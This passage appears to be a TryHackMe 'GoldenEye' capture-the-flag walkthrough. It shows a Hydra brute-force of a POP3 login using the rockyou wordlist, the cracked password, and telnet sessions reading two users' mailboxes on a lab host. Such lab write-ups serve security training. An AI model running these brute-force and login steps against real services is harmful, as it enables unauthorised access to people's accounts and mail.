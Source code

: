 ```
kali@kali:~/CTFs/tryhackme/GoldenEye$ hydra -l boris -P /usr/share/wordlists/rockyou.txt pop3://10.10.74.5:55007
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-06-24 17:14:58
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 16 tasks per 1 server, overall 16 tasks, 222 login tries (l:1/p:222), ~14 tries per task
[DATA] attacking pop3://10.10.7.77:55007/
[STATUS] 80.00 tries/min, 80 tries in 00:01h, 142 to do in 00:02h, 16 active
[STATUS] 64.00 tries/min, 128 tries in 00:02h, 94 to do in 00:02h, 16 active
[55007][pop3] host: 10.10.7.77   login: boris   password: secret1!
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-06-24 17:17:38
```

5. Inspect port 55007, what services is configured to use this port?

`telnet`

6. Login using that service and the credentials you found earlier.

```
kali@kali:~/CTFs/tryhackme/GoldenEye$ telnet 10.10.74.5 55007
Trying 10.10.74.5...
Connected to 10.10.74.5.
Escape character is '^]'.
+OK GoldenEye POP3 Electronic-Mail System
USER natalya
+OK
PASS bird
+OK Logged in.
LIST
+OK 2 messages:
1 631
2 1048
.
```

```
kali@kali:~/CTFs/tryhackme/GoldenEye$ telnet 10.10.74.5 55007
Trying 10.10.74.5...
Connected to 10.10.74.5.
Escape character is '^]'.
+OK GoldenEye POP3 Electronic-Mail System
USER boris
+OK
PASS secret1!
+OK Logged in.
LIST
+OK 3 messages:
1 544
2 373
3 921
.
```
